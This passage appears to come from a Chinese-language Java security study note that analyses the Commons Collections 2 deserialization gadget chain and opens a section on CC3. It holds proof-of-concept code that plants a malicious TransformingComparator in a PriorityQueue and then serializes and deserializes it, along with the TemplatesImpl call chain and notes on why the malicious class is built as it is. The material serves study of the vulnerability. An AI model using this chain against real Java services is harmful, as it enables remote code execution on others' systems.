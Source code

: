 ```java
        TransformingComparator comparator  = new TransformingComparator(transformer);

        Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field2.setAccessible(true);
        field2.set(queue, comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
}
```
1.为什么要设置恶意类的父类为AbstractTranslet?
我们需要令`_transletIndex`为i，此时的i为0，默认状态下`_transletIndex`的值为-1，而如果`_transletIndex`的值小于0，就会抛出异常：
![](https://img-blog.csdnimg.cn/37edc70ad53348bfb3f6301805275c51.png)
2.为什么要设置_name、_class、两个属性，其值对应的意义是什么?
首先如果要进入defineTransletClasses，需要满足这两个条件：
![](https://img-blog.csdnimg.cn/cb1421247fc54e4b9f10eeafdfa598f7.png)


调用链：
```
PriorityQueue.readObject()
  PriorityQueue.heapify()
  PriorityQueue.siftDown()
  PriorityQueue.siftDownUsingComparator()
  comparator.compare() === TransformingComparator.compare()
    InvokerTransformer.transform()
      TemplatesImpl.newTransformer()
        TemplatesImpl.getTransletInstance() 
          TemplatesImpl.defineTransletClasses()  // 定义类
        ...  // 创建类实例，触发static代码块

```
参考：[Java安全之Javassist动态编程](https://www.cnblogs.com/nice0e3/p/13811335.html)
[Java安全之Commons Collections2分析](https://www.cnblogs.com/nice0e3/p/13860621.html)

## CommonsCollections3
在 CC3 中，使用了 CC1 的 LazyMap 和 CC2 的 TemplatesImpl，中间寻找了其他的触发 newTransformer 的实现方式
>测试环境：
JDK 1.7
Commons Collections 3.1
